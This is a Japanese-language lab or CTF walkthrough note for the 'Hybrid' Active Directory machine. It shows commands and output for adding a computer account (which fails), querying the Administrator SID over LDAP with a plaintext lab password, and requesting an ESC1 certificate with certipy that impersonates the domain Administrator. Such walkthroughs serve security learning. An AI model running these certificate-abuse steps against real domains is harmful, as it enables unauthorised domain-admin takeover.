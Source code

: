 コンピューターアカウントの作成
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/DC]
└─$ impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Password123!' -dc-ip 10.10.206.37 'hybrid.vl/peter.turner:b0cwR+G4Dzl_rw'

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Authenticating account's machine account quota exceeded!

```
失敗する
mail01で管理者権限を取得できたら、コンピュータアカウントを取得できるのではないか

## mail01$として実行する
[[Mail01#Post Privilege Escalation]]から戻ってきた

AdministratorのSIDを取得する
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/10.10.233.118]
└─$ ldapsearch -x -H ldap://10.10.206.37 -D "peter.turner@hybrid.vl" -w 'b0cwR+G4Dzl_rw' -b "DC=hybrid,DC=vl" -LLL -o ldif-wrap=no "(sAMAccountName=Administrator)" objectSid
dn: CN=Administrator,CN=Users,DC=hybrid,DC=vl
objectSid:: AQUAAAAAAAUVAAAAn7nOzD9AegQNP+/a9AEAAA==

# refldap://ForestDnsZones.hybrid.vl/DC=ForestDnsZones,DC=hybrid,DC=vl

# refldap://DomainDnsZones.hybrid.vl/DC=DomainDnsZones,DC=hybrid,DC=vl

# refldap://hybrid.vl/CN=Configuration,DC=hybrid,DC=vl

```

DCのAdministratorのESC1を取得する
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/10.10.233.118]
└─$ certipy-ad req -k -no-pass -u 'MAIL01$' -ca 'hybrid-DC01-CA' -target 'DC01.HYBRID.VL' -dc-host 'DC01.HYBRID.VL' -template 'HybridComputers' -upn 'Administrator@hybrid.vl' -sid 'S-1-5-21-3436099999-75120703-3673112333-500' -dc-ip 10.10.206.37 -key-size 4096
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 11
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@hybrid.vl'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

```
取得できた
sidは必須だね
